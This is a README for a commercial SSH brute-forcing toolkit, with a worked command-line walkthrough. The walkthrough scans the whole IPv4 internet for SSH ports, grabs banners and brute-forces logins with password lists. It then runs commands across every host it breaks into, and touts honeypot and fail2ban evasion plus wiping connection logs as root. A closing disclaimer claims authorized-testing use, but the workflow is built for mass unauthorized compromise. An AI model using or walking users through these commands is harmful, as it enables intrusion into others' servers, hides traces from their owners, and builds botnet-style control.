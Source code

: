 # Spirit - Network Pentesting Tools

## [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> Check out the helpfile [`$ ./spirit --help`](./HELP) to see the whole set of tools.

## Example usage for SSH brute
```bash
# First scan your network or the internet to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]

# Parse the masscan output so that it's usable w/ spirit.
$ ./spirit parse open.lst
INFO created h.lst in HOST:PORT format

# Now test these open ports if they're running SSH by grabbing banners.
$ ./spirit banner
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created b.lst in HOST:PORT:BANNER format

# Move the banner output for spirit to load (default h.lst).
$ mv b.lst h.lst

# Add a password list for spirit to load (default p.lst).
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
$ less -S found.lst

# Connect to all your vulnerable hosts automatically & run commands.
$ ./spirit omni -c 'whoami && uptime'
```

> Tip: you can automate these steps with `./spirit auto` or use the [`./go.sh`](./go.sh) script, if you have Pro license use `./spirit forever` for continuous automatic probing on random ports & bruting.

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```
>*Spirit can self-upgrade only on amd64 aka x86-64 for now. [`donate to speed things up`](#monero-xmr-thank-you)

## Spirit is Free (sorta)
For `local IP` (10/172/192) ranges and up to 1,000 `public IPs`

If you need to pen-test more than 1,000 public IP or need Pro features we charge a small fee to help us support the project development. Use `./spirit buy` to upgrade.

## Spirit Pro
Buy a Spirit Pro license directly from the CLI `./spirit buy`. Every license helps support our development and server costs. If you want to try a Pro feature, ask for a free Pro trial license by opening an [issue](https://github.com/theaog/spirit/issues).

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time on them
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking to increase accuracy
- set your optimal concurrent threads for banner and brute `--jobs`
- very light on server load (CPU and memory)
- connect to all your hosts concurrently, upload files and execute remote commands using `./spirit omni -c 'uptime'`
- clean connection logs (if uid0) using `./spirit zap`
- masscan whole zones automatically at your own pace `./spirit masscan --zone zone.lst --rate 10_000`
- continously scan & brute your network on random ports `./spirit forever` -- spot vulnerabilities before they happen
- and more...

> check out all the spirit tools! [`$ ./spirit --help`](./HELP)

> every tool has it's own helpfile, e.g. `./spirit ms --help`

# Support the Develpoment of the Spirit toolkit!
## Monero (XMR) thank you! (our favorite)
`8ATU7h8vJWgJrGHjjG6N9aY69pUsvyFg8WRUxeGPy6jEbcZxRagsWmUN3ZrLpqDqBtHAafTLfnBzCibhvQG3trrNEdGvoTa`

![xmrqr](media/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues)

Don't forget to give us a Star!

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.

